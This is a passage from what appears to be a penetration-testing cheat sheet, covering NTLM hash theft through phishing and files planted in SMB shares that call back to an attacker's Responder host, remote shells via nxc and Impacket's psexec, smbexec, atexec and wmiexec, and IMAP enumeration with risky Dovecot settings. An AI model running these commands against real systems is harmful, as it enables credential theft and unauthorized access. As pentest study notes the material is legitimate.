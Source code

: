   ```bash
  	- Web / SMTP Phishing
  
  		- Send the direct link to a user
  		- Send a malicious document to a user: `Bad-PDF`, `Bad-ODT`, [Office](https://github.com/Greenwolf/ntlm_theft)

  	- Drop malicious files generated with `ntlmtheft() [RESPONDER_IP]` in any writable SMB share you find

  	- Any web exploits for which you can trigger a request to `\\[RESPONDER_IP]\x`

### RCE & Shell (Local Admin)
Requires writable `$` Shares, confirm with `(Pwn3d!)` in nxc output
- `nxc smb [IP] [AUTH] -x [CMD]`
- Interactive shell
	- `psexec.py hostname/username:password -target-ip [IP]`
	- `smbexec.py hostname/username:password -target-ip [IP]`
	- `atexec.py hostname/username:password -target-ip [IP]`
	- `wmiexec.py hostname/username:password -target-ip [IP]`

## 143, 993 IMAP

### Generalities:

**Type:** Email receiving

- Purpose:
  - Access emails from a mail server
  - Allows online management on the server (supports folders)
  - Authentication to the desire mailbox
  - No-encryption: transmits commands, emails, or usernames and passwords in plain text.
  - SSL/TLS to require an encrypted session (on the higher port if present)

### Configuration

In the documentation of Dovecot, we can find the individual [core settings](https://doc.dovecot.org/settings/core/) and [service configuration](https://doc.dovecot.org/configuration_manual/service_configuration/) options.

**Dangerous Settings:**

| **Setting**               | **Description**                                              |
| ------------------------- | ------------------------------------------------------------ |
| `auth_debug`              | Enables all authentication debug logging.                    |
| `auth_debug_passwords`    | This setting adjusts log verbosity, the submitted passwords, and the scheme gets logged. |
| `auth_verbose`            | Logs unsuccessful authentication attempts and their reasons. |
| `auth_verbose_passwords`  | Passwords used for authentication are logged and can also be truncated. |
| `auth_anonymous_username` | This specifies the username to be used when logging in with the ANONYMOUS SASL mechanism. |

### Interaction

- nmap will return the available commands that can be executed

- If we discover the credentials:

  ```bash
  curl -k 'imaps://[IP]' --user user:password -v
  ```
